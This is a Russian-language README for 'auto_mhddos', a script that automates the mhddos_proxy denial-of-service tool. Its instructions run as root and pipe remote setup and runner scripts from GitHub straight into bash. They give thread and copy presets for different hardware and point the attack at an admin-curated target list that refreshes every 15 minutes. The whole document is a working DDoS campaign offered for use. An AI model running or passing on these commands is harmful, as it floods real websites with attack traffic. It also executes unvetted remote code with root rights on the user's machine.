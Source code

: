 ### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

## Установка или получение обновлений

* Выполняем команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash`

* Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

## Запуск скрипта

### Docker

1. Билдим образ командой `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/build_docker.sh | bash`
2. Запускаем `docker run -it --rm aruiem234/auto_mhddos:latest`

Опционально можно указать параметры:

```shell
docker run -it --rm aruiem234/auto_mhddos:latest [num_of_copies] [restart_interval] [threads] [rpc]
```

### Bash

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

#
Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ): `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 900 500 100`

-- Среднее: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 900 1000 200`

-- Быстрое: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 900 2000 1000`

Значение параметров на примере "bash -s -- 1 900 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

900 - время через которое скрипт перезапускается (900с = 15 мин). Лучше не менять.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.
#

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 2 копии mhddos_proxy. Каждая копия независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

## Завершение скрипта

Чтобы завершить скрипт, простой закройте окно с терминалом

ИЛИ

В другом терминале выполните команду "pkill -f python3", потом в основном терминале нажмите CTRL + C.
